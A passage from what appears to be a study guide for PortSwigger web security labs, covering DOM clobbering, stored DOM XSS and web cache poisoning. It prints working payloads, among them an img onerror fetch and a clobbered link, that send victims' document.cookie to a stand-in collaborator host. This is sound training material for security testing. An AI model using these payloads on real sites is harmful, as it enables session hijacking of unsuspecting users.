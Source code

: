 ```
<base href="https://Exploit.net">
```

> Host JS file on Exploit server as `static/js/bootstrap.bundle.min.js`, with content:

```
alert(document.getElementsByClassName("navbar-brand")[0].innerText)
```

> The modified PortSwigger lab payload assign the `document.location` function to the variable `defaultAvatar` next time page is loaded, because site uses DOMPurify that allows the use of `cid:` protocol that do not URLencode double quotes.

```
<a id=defaultAvatar><a id=defaultAvatar name=avatar href="cid:&quot;onerror=document.location=`https://COLLABORATOR.com/?clobber=`+document.cookie//">
```

[PortSwigger Lab: Exploiting DOM clobbering to enable XSS](https://portswigger.net/web-security/dom-based/dom-clobbering/lab-dom-xss-exploiting-dom-clobbering)

#### Stored DOM XSS

> In the JavaScript `source code`, included script `resources/js/loadCommentsWithVulnerableEscapeHtml.js` we _**identify**_ the `html.replace()` function inside the custom `loadComments` function. Testing payloads we see the function only replaces the first occurrence of `<>`.

```html
<><img src=1 onerror=javascript:fetch(`https://COLLABORATOR.com?escape=`+document.cookie)>
```

> Above payload is stored and any user visiting the comment blog will result in their session cookie being stolen and send to collaborator.

> PortSwigger Lab payload: `<><img src=1 onerror=alert()>`.

[PortSwigger Lab: Stored DOM XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-dom-xss-stored)

***

### Web Cache Poison

[Unkeyed header](broken-reference)\
[Unkeyed Utm\_content](broken-reference)\
[Cloaking utm\_content](broken-reference)\
[Poison ambiguous request](broken-reference)\
[Cache Poison multiple headers](broken-reference)

#### Unkeyed header

> Target use **tracking.js** JavaScript, and is vulnerable to **`X-Forwarded-Host`** or **`X-Host`** header redirecting path, allowing the stealing of cookie by poisoning cache. _**Identify**_ the web cache headers in response and the tracking.js script in the page source code. Exploit the vulnerability by hosting JavaScript and injecting the header to poison the cache of the target to redirect a victim visiting.
